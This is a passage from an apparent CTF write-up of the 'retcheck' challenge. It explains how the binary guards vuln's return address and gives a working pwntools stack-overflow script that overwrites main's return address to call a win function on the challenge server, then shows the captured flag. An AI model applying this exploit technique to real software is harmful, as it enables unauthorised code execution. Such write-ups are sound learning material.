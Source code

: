 this piece of code checks if we ovewrite the address of the function <span style="color:red">`vuln`</span> in which overflow was occured. If that return address is overwritten then it calls <span style="color:red">`abort`</span> thats why name is <span style="color:red">`retcheck`</span>

then how to call <span style="color:red">`win`</span> right? well we can overwrite the return address of main which is few offsets away from return address of <span style="color:red">`vuln`</span>

```python
from pwn import *
context.arch = 'amd64'

offset = 0x190+8
payload = b""
payload += b"A" * offset
payload += p64(0x401465)
payload += cyclic(cyclic_find(0x61616163))
payload += p64(0x4012e9)

flag = False

if flag:
    p = process("./retcheck")
else:
    p = remote("challenge.ctf.games",31463)

p.recv()
p.sendline(payload)
print(p.recvall())
```

<img src="/assets/img/hacktivitycon/retcheck_sol.png">

flag is <span style="color:red">`flag{a73dc20c1cd1f918ae7b591e8625e349}`</span>

# shellcoded (easy)
<img src="/assets/img/hacktivitycon/shellcoded.png">
